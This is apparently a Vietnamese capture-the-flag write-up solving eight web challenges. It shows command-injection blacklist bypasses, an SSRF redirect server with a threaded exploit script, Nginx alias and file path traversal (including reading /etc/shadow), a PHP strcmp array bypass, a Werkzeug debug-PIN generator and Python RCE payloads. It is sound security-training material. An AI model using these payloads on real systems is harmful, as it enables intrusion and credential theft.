# All Challenge
1. Ping 0x01

- Đầu tiên chúng ta vào trang chủ thấy được  có lệnh ping thì mình nghĩ đây có thể là một thử thách lệnh hệ điều hành rồi cùng dow mã nguồn về xem thử
```php
<?php
if(isset($_POST[ 'ip' ])) {
    $target = trim($_POST[ 'ip' ]);
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '|' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );
    $cmd = shell_exec( 'ping -c 4 ' . $target );
}
?>
```
- Chúng ta thấy được danh sách blacklist của chúng và điều đáng chú ý là lệnh ping -c 4 được nối với $target không được lọc kĩ đầu vào và được sử dụng lệnh shell_exec để thực thi lệnh
- Rồi bây giờ chúng ta hãy vào burp suite test thử 
 à không nó đã nằm trong danh sách blacklist bây giờ thử lệnh tiếp bằng <b>%0A</b> lệnh này có thể bypass được các phần nằm trong blacklist
- <b>ip=cookie
whoami</b> thực thi thành công 
 bây giờ chúng ta sử dụng <b>ls /</b> thay whoami thấy được danh sách thư mục 
 đọc flag thôi. 
=> Flag: <b>CHH{EASY_f11tEr_coMM4ND_INJ3c71oN_e7eb90c41c1acb54a2a9ff07109129c2}</b>
2. Ping 0x02
 
- Tiếp theo là seri cha của 0x01 =))) vẫn như cũ dowload file về kiểm tra thử danh sách blacklist xem thì bây giờ code nó dã man hơn tí là nó chặn cả từ flag và * 
```php
<?php
if(isset($_POST[ 'ip' ])) {
    $target = urldecode(trim($_POST[ 'ip' ]));
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '|' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
        ' ' => '',
        'flag' => '',
        "*" => ''
    );
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );
    $cmd = shell_exec( 'ping -c 4 ' . $target );
}
?>
```
- Sử dụng lệnh %0A nó vẫn hoạt động nhé.  nhưng vấn đề tôi sử dụng lệnh <b>ls /</b> dùng dấu khoảng trắng thì bị filter nhưng may mắn thay nó vẫn hoạt động với lệnh <b>tab</b> nhé thực hiện theo tab thì trả về danh sách 
 nhưng sau một hồi tôi tra chatgpt =)) để tìm cách đọc file flag thì sau 1 vài lần thử nghiệm với cách là <b>"f"lag.txt</b> nó có thể bypass 
 
=> Flag: <b>CHH{Med1Um_F11TEr_coMm4ND_InJ3C71On_c05a7d179309f3a65412547b6d734fd8}</b>
3. Image Copy Resampled
- Câu này sau một hồi mình giải k ra thì mình đọc được 1 wu của bạn này cũng khá hay mng có thể tham khảo -> https://hackmd.io/@kev1n/bkctf2023
- Và được tạo từ tool của a này khá hay khi chèn payload trong ảnh mà không bị cắt mất nội dung : https://github.com/huntergregal/PNG-IDAT-Payload-Generator.git
4. Youtube Dowloader
- Description : Youtube Downloader là công cụ giúp bạn tải video từ Youtube về máy tính miễn phí. Nếu hack được ứng dụng này, bạn sẽ nắm trong tay công nghệ tải video của các website Youtube Downloader trên thế giới.
 
- Khi vào trang web tháy được một url để xác thực URL mình thử nhập giá trị hợp lệ xem http://google.com thì nó hợp lệ vậy bây giờ chúng ta chuyển hướng dầu ra của server mình kiểm soát và thực hiện OS thử xem.
- Tạo một webhook mình thử đưa 1 giá trị đường dẫn webhook và nó chuyển hướng thật 
- Vậy chúng ta có thể gửi /flag lên bằng cách sử dụng 
- https://google.com?cmd=;ls thực thi lệnh nhưng nó filter khoảng trắng trong OS có thể dùng $(IFS) để bypass khoảng trắng và từ đó đưa ra lệnh cuối cùng:
- <b>https://google.com?cmd=;cat${IFS}/flag.txt</b>
=> Flag: <b>CHH{Ea5y_cOmmaND_inj3c7Ion_8844d03bbcdebb15d9650513077ebb36}</b>
5. Difference Check
 
- Thử thách này khi vào trang chủ thì nó sẽ hiện cho chúng ta 2 cái url1 và url2 
- Khi mình nhập url1 và 2 http://google.com chẳng hạn thì chúng sẽ so sánh nội dung của 2 url mình đưa vào.
- Theo như mình hay chơi thì mình test thử địa chỉ http://127.0.0.1 xem thử có bị SSRF hay không. Theo như dự đoán nó có thể xảy ra 
 
- Khi chúng ta đã bị chặn lại vấn đề bây giờ chúng ta truy cập vào nội bộ để đọc FLAG. Vậy bây giờ làm sao sau một hồi suy nghĩ và đọc được mấy bài blog mình thấy rằng. Bây giờ mình sẽ thực hiện tạo một server php với kiểu random giá trị 0 và 1 tức là khi chuyển url lên nếu không đúng thì nó sẽ redirect tiếp còn mà trúng với giá trị mục tiêu mình thì chuyển hướng đến localhost
```php
<?php
    $temp=rand(0,1);
    if($temp == 1){
        header("Location: http://localhost:1337/flag");
    }
?>
```
- Và mình sẽ tạo trình lắng nghe với nội dung mình đã đưa trên 

- Bây giờ mình sẽ tạo một giao thức để thực hiện thông qua ngrok 
 
- Và bây giờ mình sẽ viết một tập lệnh python để giải quyết nó:
```python
import requests
from threading import Thread

chall_url = 'http://103.97.125.56:32050/'
my_url = "https://93a4-116-98-247-17.ngrok-free.app"

def payload():
    data = {"url1": my_url, "url2": "http://google.com"}
    r = requests.post(chall_url+'/diff', data=data)
    print(r.text)

if __name__ == '__main__':
    for i in range(1,5):
        thread = Thread(target=payload)
        thread.start()
```
 
=> Flag : CHH{D1ffERenc3_CHEck_dNS_R3b1InD_ae84a39d3c0de406a553eaef81aa124f}
6. Nginx Alias
- Description: Read the app/run.py and get the flag
- Khi vào trang chủ nó hiện thị đường dẫn
 
- Sau khi nhấp vào đường link 

- Ở đây tôi tự hỏi là Nginx Alias là gì?
> Theo tài liệu : https://hakaisecurity.io/nginx-alias-traversal/insights-blog/?__cf_chl_tk=4zz3ThdeOGcdIHAjz0epYvffFDDkeswiJzDprNYO8HI-1749829324-1.0.1.1-SgzIpLO9jRjpSddCLxJI9ZPqEIQvsDQuSZwTuchsMf8
> Alias: Chỉ thị location là một chỉ thị khối có thể chứa các chỉ thị khác và được sử dụng để xác định cách Nginx xử lý các yêu cầu cho các URL cụ thể, chúng có thể được xác định. Nó thường được sử dụng kết hợp với chỉ thị alias để ánh xạ URL tới các vị trí tệp cụ thể trên máy chủ. Các chỉ thị có thể được định nghĩa trong nginx conftệp hoặc trong tệp cấu hình riêng.
Cú pháp cho chỉ thị vị trí như sau:
location [modifier] /path/to/URL {    # other directives}
> Chỉ alias thị phải có trong ngữ cảnh vị trí và phải kết thúc bằng dấu gạch chéo.
> 
> Chúng ta có thể truy cập thư mục mục đích thông qua bất kì URL yêu cầu nào bắt đầu bằng /img chúng ta cs thể truy cập hiện diện .. do đó tiếp cận được thư mục cha bằng cách yêu cầu đưa ra /img.. cho ví dụ.
- Ồ từ thông tin trên chúng ta cùng quay lại challenge 1 chút chúng ta thấy 

 nói như thế thì app ở đây chúng ta là một thư mục cha và biến static chúng ta cs thể đạt được bằng cách /static../run.py ?? đúng rồi khi đó tiếp cận được thư mục cha bằng cách duyệt thưu mục -> app/static../run.py -> app/run.py chúng ta có thể get flag
 
7. Baby Strcmp
- Description: Không dùng IF, lập trình viên sử dụng hàm strcmp để kiểm tra giá trị mà bạn nhập vào có trùng với Secret Flag của hệ thống không. Họ tin tưởng phương pháp lập trình này rất an toàn!
- Vào home nó sẽ hiển thị giao diện như này và nhập thử giá trị bất kì thử:
 
- Không có gì đáng hi vọng chúng ta show source code lên hack bằng cách control u là có flag =))) đùa đấy 
  ở đây lập trình viên có hint lại mục ?debug chúng ta thử truy cập:
```php
<?php
$title = "Baby Phasebeast";

$flag = file_get_contents("/flag.txt");

if (isset($_POST['flag'])){
  if ( strcmp( $_POST['flag'], $flag ) == 0 ){
      $message = "You got it! Your flag is ";  
      $message .= $flag;    
  }else{
      $message = "You can't guess! So Secure! ";  
  }
}

if(isset($_GET['debug'])){
  highlight_file(__FILE__);
  die();
}
?>
```
- Thu được source trên như ta đã thấy nó sẽ phần tích bằng cách đưa tham số với flag=???? làm sao để == 0 thì nó sẽ nhả cờ còn không thì hiển thị message dưới.
- Bây giờ tôi hỏi liệu làm sao để đạt được sau một hồi tìm kiếm tài liệu PHP với strcmp https://stackoverflow.com/questions/51068899/php-strcmp-not-working
- Tôi đã hiểu và như đã nói nếu bây giờ chúng ta truyền vào 1 mảng thì hàm strcmp nó sẽ so sánh nếu không khớp kiểu không hợp lệ thì nó sẽ chuyển về bằng 0 chúng ta sẽ bypass giả sử như có đoạn mã sau:
```php
$username = $_POST['username'];
$password = $_POST['password'];

$real_password = "original password here";

if (strcmp($password, $real_password) == 0) {
 
 echo "flag{}";
}
```
- Chúng ta sẽ đưa ra yêu cầu đăng nhập bằng cách password[]=bypass thì $password sẽ trở thành một mảng. Và khi so sánh thay vì đưa ra lỗi tk strcmp nó sẽ ép giá trị về NULL thì = 0 chúng ta có thể bypass nó không nói sâu nữa thực hiện.
 
- flag: CHH{s7rcMp_pHp_Ju96lINg_8a18edccccb33bcf2bb7400504f16a87}
8. Flask Dev
 
- Khi vào trang thì chúng ta nhận chữ 
- Thử có file robots.txt gì ko. Rồi nhận được debug lỗi 
 
- Xem qua có gì đặc biệt và mình phát hiện được
  ở đây route /path nó không được vệ sinh nên có thể xảy ra lỗi path travelsal để đó và chúng ta quay lại sau. Tôi thấy có một mã pin và như đề bài nói pincode và RCE
 
- Tức chúng ta phải bypass được mã pin này và có thể tiến hành RCE được rồi tôi tìm trên gg với từ khóa: <b>Bypass PinCode In Werkzeug/2.3.6 Python/3.8.17</b> và theo tài liệu <b>HackTrick: https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/werkzeug.html#werkzeug-console-pin-exploit</b> chúng ta có thể tính toán mã pin bao gồm các thông tin bạn có thể đọc.
- Như đã nói ở trên nó có thể xảy ra path travelsal vì k có bảo vệ chặt chẽ chúng ta hãy thử : ../../../etc/shadow
 
- THu được username: <b>cookiehanhoan<b>
- Bây giờ cần tìm địa chỉ MAC theo tài liệu hacktrick có thể tìm nó qua đường dẫn: /sys/class/net/eth0/address thu được địa chỉ MAC: 7a:ce:9c:86:7d:07
 
- Có được uuid của MAC: <b>135027807911175</b>
 
- Ta thu được boot_id: <b>a0a129b6-a505-498d-ae00-b06b36834d23</b> tuy nhiene /etc/machie-id và proc/self/cgroup bị rỗng 
- rồi bây giờ chúng ta đã thu được các thông tin quan trọng để thực hiện brute-force mã pin:
- 1. username: <b>cookiehanhoan</b>
- 2. uuid: <b>135027807911175</b>
- 3. boot_id: <b>a0a129b6-a505-498d-ae00-b06b36834d23</b>
Chúng ta cùng tạo nên mã pin với tập lệnh python
```python
import hashlib
from itertools import chain
probably_public_bits = [
    'cookiehanhoan',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.8/site-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
    '135027807911175',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    'a0a129b6-a505-498d-ae00-b06b36834d23'  # get_machine_id(), /etc/machine-id
]
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```
- Thu được mã pin:

- Nhưng không nó k đúng mã pin: 

- Sau 3 tiếng mình ngồi mò đi mò lại thì mới phát hiện username không phải cookiehanhoan mà root mé điên ghê =))) ngu qua đúng root có thể có thể thực hiện các quyền: 

- Bây Giờ thực hiện tải trọng cuối cùng:
``` python
import hashlib
from itertools import chain
probably_public_bits = [
    'root',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.8/site-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
    '135027807911175',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    'a0a129b6-a505-498d-ae00-b06b36834d23'  # get_machine_id(), /etc/machine-id
]
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```
- Có được mã:
 
- Bùm 
 
- Đã bypass thành công bây giờ chỉ cần RCE lấy FLAG
- <b>__import__('os').popen('whoami').read()</b>
 
- Tới đay cat /flag nó ra rỗng mé nó. Tôi sử dụng đại tìm kiếm =))
- <b>__import__('os').popen('strings /flag | grep CHH').read();</b>
FLAG: CHH{flask_Dev_Can_HacK_d128d9414c946ef8dc07d520a714e13f}\n